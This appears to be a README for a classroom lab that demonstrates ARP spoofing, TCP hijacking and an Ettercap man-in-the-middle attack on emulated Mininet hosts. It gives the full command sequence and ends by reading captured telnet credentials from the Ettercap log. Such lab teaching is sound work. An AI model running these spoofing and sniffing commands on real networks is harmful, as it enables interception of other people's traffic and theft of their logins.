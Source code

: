 # Sniffing

## Enable IP FOrwardings with dsniff
```
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

## Run mininet for TCP Hijacking demo

#### TCP Hijacking demo on mininet
```
https://github.com/seanschoi/mininet_tcp_hijacking
```

#### Run script:
```
sudo python sniffing/tcp_hijacking.py
```

## Add default gateway
```
h1 route add default gw 192.168.0.5
```
## Send continuous pings to the gateway
```
h1 ping h3
```
## Use mininet `m` utility to start ARP spoofing
```
mininet/util/m h2 arpspoof -i h2-eth0 -t 192.168.0.3 192.168.0.5
```

## ARP spoof for the second host
```
mininet/util/m h2 arpspoof -i h2-eth0 -t 192.168.0.5 192.168.0.3
```

# Use Ettercap for MITM attack

## Start Ettercap
```
mininet/util/m h2 ettercap -T -i h2-eth0 -M arp:remote -L /tmp/mitm ///
```

## back on mininet, start a telnet server
```
h1 inetd
```

## Connect to the telnet server from the other miniet host
```
mininet/util/m h3 telnet 192.168.0.3
skillsetuser2
infosec!!!
```

## Read ettercap logs

#### chutdown ettercap
```
q
```

#### read the ettercap logs
```
etterlog /tmp/mitm.eci | more
```